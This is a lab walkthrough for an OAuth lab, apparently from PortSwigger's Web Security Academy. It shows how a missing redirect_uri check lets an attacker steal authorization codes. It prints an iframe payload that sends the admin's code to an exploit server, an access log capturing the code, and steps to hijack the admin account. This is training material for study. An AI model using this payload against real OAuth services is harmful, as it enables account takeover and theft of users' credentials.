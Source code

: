 # OAuth account hijacking via redirect_uri

**Date:** 04, August, 2021

**Author:** Dhilip Sanjay S

---

## Task

- This lab uses an **OAuth service** to allow users to log in with their social media account. 
- A **misconfiguration by the OAuth provider** makes it possible for an attacker to *steal authorization codes* associated with other users' accounts.

- To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.
- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
- You can log in with your own social media account using the following credentials: `wiener:peter`.

---

## Solution

- Understand the OAuth flow.
- There is no validation on the `redirect_uri`.
- Create an iframe with the `redirect_uri` pointing to **exploit server** in the exploit server:

```bash
<iframe src="https://oauth-ac881f9f1e04b5c5809b00fb02020011.web-security-academy.net/auth?client_id=xop1ssyd5egkugmiuspd1&redirect_uri=https://exploit-acb41f7a1efbb5c380fe001001e600fe.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email">
```

- Open the **Access log** after delivering the exploit to victim.
- You must have received the `/outh-callback` with the authorization code:

```bash
IP_ADDRESS  2021-08-04 13:16:17 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
IP_ADDRESS  2021-08-04 13:16:17 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
172.31.30.181   2021-08-04 13:16:17 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Chrome/786316"
172.31.30.181   2021-08-04 13:16:17 +0000 "GET /oauth-callback?code=mEN_6IDsv0wzWlgpBRrdAfbtRx39WEGwiesKQPzqRl2 HTTP/1.1" 404 "User-Agent: Chrome/786316"
```

- Copy the code.
- Intercept the `/outh-callback` request and replace the code.
- Now you'll get access to admin panel:


![Admin Panel](../Images/Lab3-solved.png)

- Delete the `carlos` user to finish the lab!!

